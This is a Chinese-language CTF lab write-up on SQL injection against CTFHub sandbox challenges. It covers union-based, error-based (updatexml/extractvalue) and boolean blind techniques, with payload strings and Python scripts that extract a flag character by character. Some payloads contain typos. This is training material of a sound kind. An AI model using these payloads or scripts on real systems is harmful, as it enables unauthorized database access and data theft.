# 整数型注入

## 判断是否存在

```
1 and 1=1
1 and 1=2
```

## 查询列数

1.  ordey by

   ```
   1 order by 1
   1 order by 2
   ```

   

```
1 order by 3
```



2. union select

   ```
   1 union selec 1,2,3
   ```

   

## 获取数据库

```sql
-1 union select 1,database()
```




## 获取表

表的数量为2

```sql
-1 union select 1,group_concat(table_name) from inofromation_schema.tables where table_schema=database()
```



## 获取列

```
-1 union select 1,group_concat(column_name) from inofromation_schema.columns where table_schema="flag"
```



## 获取数据

```
-1 union select 1,falg from flag
```



# 字符注入

## 获取数据

```
-1' union select 1,falg from flag #
```

# 报错注入

```
1'
```



根据报错获取数据

## updatexml（）函数

- updatexml（）是一个使用不同的xml标记匹配和替换xml块的函数。

- 作用：改变文档中符合条件的节点的值

- 语法： updatexml（XML_document，XPath_string，new_value） 

- 第一个参数：是string格式，为XML文档对象的名称，文中为Doc

-  第二个参数：代表路径，Xpath格式的字符串例如//title【@lang】

-  第三个参数：string格式，替换查找到的符合条件的数据

- updatexml使用时，当xpath_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）

- 例如： select * from test where ide = 1 and (updatexml(1,0x7e,3)); 由于0x7e是~，不属于xpath语法格式，因此报出xpath语法错误。

  

 


## extractvalue（）函数

- 此函数从目标XML中返回包含所查询值的字符串 语法：extractvalue（XML_document，xpath_string）
-  第一个参数：string格式，为XML文档对象的名称 
- 第二个参数：xpath_string（xpath格式的字符串）
- extractvalue使用时当xpath_string格式出现错误，mysql则会爆出xpath语法错误（xpath syntax）
- select user,password from users where user_id=1 and (extractvalue(1,0x7e));
- 由于0x7e就是~不属于xpath语法格式，因此报出xpath语法错误。

## 获取数据库

```
1 and (extractvalue(1,concat(0x7e,select database(),0x7e))
```



## 获取数据

```
1 and (extractvalue(1,concat(0x7e,(select flag from flag),0x7e))
```



# 布尔注入

注入点没有回显，只有True和Flase的情况下

常用的函数



## 获取数据库

```
1 and substr((select database()),1,1)='s'
```



或者使用ascii

python代码如下

```python
import requests
url='http://challenge-aca2fb9060468e2f.sandbox.ctfhub.com:10800/?id=1 and '
db='ascii(substr((select database()),%d,1))=%d'
response=''
for i in range(1,10):
    for j in range(31,128):
        payload=db%(i,j)
        r=requests.get(url+payload)
        print(r.url)
        if 'query_success' in r.text:
            response+=chr(j)
            print(response)
            break
```

## 获取表的数量

```
table_count='(select count(*) from information_schema.tables where table_schema=database())=%d'
```

```
def get_table_count():
    for i in range(1,10):
        table_payload=table_count%(i)
        r=requests.get(url+table_payload)
        print(r.url)
        if 'query_success' in r.text:
            print("表的数量: "+str(i))
            return i
```



## 获取表

可以不需要获取表的数量

直接获取表

```
table_name = "ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),%d,1))=%d"
```

```
def get_data():
    response=''
    for i in range(1,10):
        for j in range(31,128):
            payload=table_name%(i,j)
            r=requests.get(url+payload)
            print(r.url)
            if 'query_success' in r.text:
                response+=chr(j)
                print(f"结果: {response}")
                break
            if j==127:
                print('不需要再查询了')
                return
```



## 获取表的字段

```
column_name = "ascii(substr((select group_concat(column_name) from information_schema.columns where table_name='flag'),%d,1))=%d"
```



## 获取数据

```
data='ascii(substr((select flag from flag),%d,1))=%d'
```


## 异步获取

```
import aiohttp
import asyncio

url = "http://challenge-7fb62f66a006963e.sandbox.ctfhub.com:10800/?id=1 and "

data='ascii(substr((select flag from flag),%d,1))=%d'


async def fetch(session, url):
    async with session.get(url) as response:
        return await response.text()

async def batch_fetch(session, urls):
    tasks = [fetch(session, url) for url in urls]
    return await asyncio.gather(*tasks)
def get_payload(payload,i, j):
    return payload % (i, j)


async def main():
    response = ""
    # 设置并发数量
    batch_size = 10
    
    async with aiohttp.ClientSession() as session:
        for i in range(1, 40):
            new_response = response
            for j in range(31, 128, batch_size):
                # 创建一批URL
                urls = []
                for k in range(batch_size):
                    if j + k < 128:
                        end_url = url + get_payload(data, i, j + k)
                        print(end_url)
                        urls.append(end_url)
                
                # 并发发送请求
                results = await batch_fetch(session, urls)
                
                # 处理结果
                for k, result in enumerate(results):
                    if "query_success" in result:
                        response += chr(j + k)
                        break
                else:
                    continue
                break
                
            if len(new_response) == len(response):
                break
    print('结果为: %s' % response)

if __name__ == "__main__":
    asyncio.run(main())
```


